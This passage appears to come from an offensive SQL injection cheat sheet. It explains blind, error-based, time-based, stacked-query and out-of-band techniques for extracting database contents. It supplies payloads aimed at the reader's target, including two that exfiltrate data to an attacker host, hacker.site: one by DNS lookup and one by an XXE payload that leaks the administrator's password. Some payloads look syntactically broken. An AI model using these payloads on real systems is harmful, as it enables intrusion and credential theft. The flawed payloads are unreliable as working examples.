 In this case you cannot see the results of the query or the errors, but you can distinguished when the query return a true or a false response because there are different contents on the page.
In this case, you can abuse that behaviour to dump the database char by char:

?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'

Exploiting Error Blind SQLi

This is the same case as before but instead of distinguish between a true/false response from the query you can distinguish between an error in the SQL query or not (maybe because the HTTP server crashes). Therefore, in this case you can force an SQLerror each time you guess correctly the char:

AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- -

Exploiting Time Based SQLi

In this case there isn't any way to distinguish the response of the query based on the context of the page. But, you can make the page take longer to load if the guessed character is correct. We have already saw this technique in use before in order to confirm a SQLi vuln.

1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#

Stacked Queries

You can use stacked queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle doesn't support stacked queries. MySQL, Microsoft and PostgreSQL support them: QUERY-1-HERE; QUERY-2-HERE
Out of band Exploitation

If no-other exploitation method worked, you may try to make the database ex-filtrate the info to an external host controlled by you. For example, via DNS queries:

select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));

Out of band data exfiltration via XXE

a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -

Automated Exploitation

Check the SQLMap Cheetsheat to exploit a SQLi vulnerability with sqlmap.
Tech specific info

We have already discussed all the ways to exploit a SQL Injection vulnerability. Find some more tricks database technology dependant in this book:

    MS Access

    MSSQL

    MySQL

    Oracle

    PostgreSQL
